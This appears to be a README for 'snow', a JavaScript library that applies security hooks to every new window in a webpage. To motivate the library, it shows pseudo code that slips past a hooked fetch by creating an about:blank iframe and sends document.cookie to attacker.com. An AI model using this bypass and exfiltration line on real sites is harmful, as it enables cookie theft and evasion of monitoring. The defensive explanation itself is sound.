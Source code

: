 ## The iFrames Headache

considering the fetch API example from above, let's assume an attacker gains a code execution on a website,
and after they stole some cookies, they want to exfiltrate the stolen data back to their servers.
On first thought, this might not seem as an easy task, now that `window.fetch` is hooked and being monitored.

Lucky (for the attacker) we can use the power of iframes.

I mean after all, every window that comes to life within the webpage has its own APIs initialized, including fetch API.
So instead of using the top window's fetch API (which is hooked), an attacker can simply create a new window
by appending to the DOM a new `iframe` element and then use its window's fetch API:

```javascript
// pseudo code
const ifr = document.createElement('iframe');
ifr.src = 'about:blank'; // to maintain same origin policy between the top window and the new iframe window
document.head.appendChild(ifr);
const iframeWindow = ifr.contentWindow;
iframeWindow.fetch('https://attacker.com/stolen-cookies?data=' + document.cookie);
```

We learn here, that hooking the top window's fetch API is simply not
enough - **we have to do so for every window that might exist in the webpage**.

In order to do so, we'd have to successfully face a few challenges:
1. map every single way of initiating a new window within a webpage
2. hook each of those ways to give us every "newborn" window the second
   it is created and before its creator can have their hands on it

Once we know how to do that, **we can start applying our monitoring fetch
API hook on every new window in the webpage - and not just the top window.**

## Snow

This problem is partly solved by some companies that implemented non-fully-hermetic solutions
to meet their specific needs.

**However, there is no public and hermetic solution that aspires
to serve as a standard solution to this problem, a solution that covers all possible
scenarios and promises full control on every new window in the webpage.** (no private
solution either in my opinion, but I can't commit to that statement)

That's what `snow` comes to solve - it is a simple js library with a very simple API
that by giving a callback makes sure to execute it on every window that is initiated in the
webpage before its creator gets to manipulate it.

So considering again the example from above, with `snow` you can protect fetch API
once and for all:

```javascript
window.SNOW((win) => {
  const realFetch = win.fetch;
  win.fetch = function(input, init) {
    console.log('attempt to use fetch API with the following arguments: ', input, init);
    return realFetch.call(this, input, init);
  }
}, window);
```
